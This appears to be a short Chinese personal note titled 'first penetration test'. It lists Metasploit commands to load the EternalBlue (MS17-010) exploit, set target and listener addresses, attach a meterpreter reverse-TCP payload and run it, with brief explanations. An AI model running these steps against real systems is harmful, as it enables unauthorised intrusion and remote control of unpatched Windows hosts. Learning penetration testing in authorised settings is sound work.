 ```yaml
---
icon: pen-to-square
date: 2025-03-07
tags: 
title: 第一次渗透
category:
  - 项目
---
```

```
msfconsole
```
msfconsole简称[msf](https://so.csdn.net/so/search?q=msf&spm=1001.2101.3001.7020)是一款常见的渗透测试工具，包含了常见的漏洞利用模块和生成各种木马，方便于安全人员的使用。
```plaintext
search ms17_010
```
搜索永恒之蓝漏洞模块
```plaintext
use exploit/windows/smb/ms17_010_eternalblue
```
加载永恒之蓝漏洞模块
```plaintext
set RHOSTS <目标IP地址>
set LHOST <本地IP地址>
set LPORT <本地监听端口>
set PAYLOAD windows/x64/meterpreter/reverse_tcp
```
设置目标主机 IP 地址、监听端口，载荷等参数
```plaintext
exploit
```
漏洞执行